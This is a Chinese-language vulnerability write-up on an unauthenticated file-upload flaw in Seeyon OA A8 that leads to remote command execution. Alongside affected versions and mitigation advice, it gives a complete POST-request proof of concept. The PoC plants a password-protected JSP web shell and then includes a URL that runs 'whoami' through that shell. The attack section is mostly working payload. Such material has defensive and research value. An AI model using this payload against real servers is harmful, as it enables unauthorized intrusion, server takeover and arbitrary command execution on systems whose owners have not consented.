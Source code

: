 ```yaml
---
title: 致远OA A8 系统远程命令执行漏洞
id: zhfly3354
---
```


# 致远OA A8 系统远程命令执行漏洞

## 一、漏洞简介

该系统的漏洞点在于致远OA-A8系统的Servlet接口暴露，安全过滤处理措施不足，使得用户在无需认证的情况下实现任意文件上传。攻击者利用该漏洞，可在未授权的情况下，远程发送精心构造的网站后门文件，从而获取目标服务器权限，在目标服务器上执行任意代码。

## 二、漏洞影响

漏洞影响的产品版本包括：

致远A8-V5协同管理软件 V6.1sp1

致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3

致远A8+协同管理软件V7.1

漏洞处置建议

临时修补方案如下：

1、 配置URL访问控制策略；

2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；

3、 对OA服务器上的网站后门文件进行及时查杀。

建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。
详情请移步CNVD官网查看https://www.cnvd.org.cn/webinfo/show/5095

## 三、复现过程

先访问/seeyon/htmlofficeservlet

![image](../img/38eb852e7e84d50b19b9b313089d86d7.png)
出现DBSTEP V3.0 0 21 0 htmoffice operate err
![image](../img/3e51f53a1d9525934db87d1988a858a4.png)
掏出burp进行抓包替换成poc如下
![image](../img/ec5632387038a39f4ed74a34c5094135.png)
提交POST请求包，查看回显如下
![image](../img/c31a6198a80bd1b18e6c898116af2032.png)

### 小结

POC：(POST包)

```
POST /seeyon/htmlofficeservlet HTTP/1.1
Content-Length: 1111
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Host: www.0-sec.org
Pragma: no-cache `DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV

OPTION=S3WYOSWLBSGr

currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66

CREATEDATE=wUghPB3szB3Xwg66

RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6

originalFileId=wV66

originalCreateDate=wUghPB3szB3Xwg66

FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6

needReadFile=yRWZdAS6

originalCreateDate=wLSGP4oEzLKAz4=iz=66

<%@ page language=“java” import=“java.util.*,[java.io](http://java.io).*” pageEncoding=“UTF-8”%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec©;BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if(“123”.equals(request.getParameter(“pwd”))&&!"".equals(request.getParameter(“cmd”))){out.println("<pre>"+excuteCmd(request.getParameter(“cmd”)) + “</pre>”);}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce` 
```

> `http:/www.0-sec.org/seeyon/test123456.jsp?pwd=123&cmd=cmd+/c+whoami`
> test123456.jsp名称由来为`FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6`解密以后，加密方式不详，可能为oa内置加密方式
